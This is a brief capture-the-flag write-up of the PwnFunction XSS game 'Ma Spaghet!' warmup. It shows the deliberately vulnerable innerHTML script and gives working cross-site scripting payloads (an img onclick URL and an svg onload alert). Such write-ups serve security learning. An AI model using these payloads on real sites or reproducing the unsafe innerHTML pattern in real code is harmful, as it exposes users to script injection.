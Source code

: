 ```yaml
---
title: '[XSSG] Ma Spaghet!' 
date: 2022-04-29 
categories: [Others, XSSgame]
tags: [easy, warmups, xss, challenge]
permalink: /:categories/:title
---
```


#### Challenge

This is the script that violates the web

```html
<!-- Challenge -->
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

#### Solution

We have only to add a simple XSS, with *img* and the option *alt* we display something in the website and for execute some *js* we use onclick or onmouseover function to run the code

[Somebody Toucha Ma Spaghet!](https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=%3Cimg%20alt=%27click%27%20onclick=alert(%27win%27)%3E)

#### Creator solution

The solution given by the creator of the game is as follows

`<svg onload=alert(1337)>`
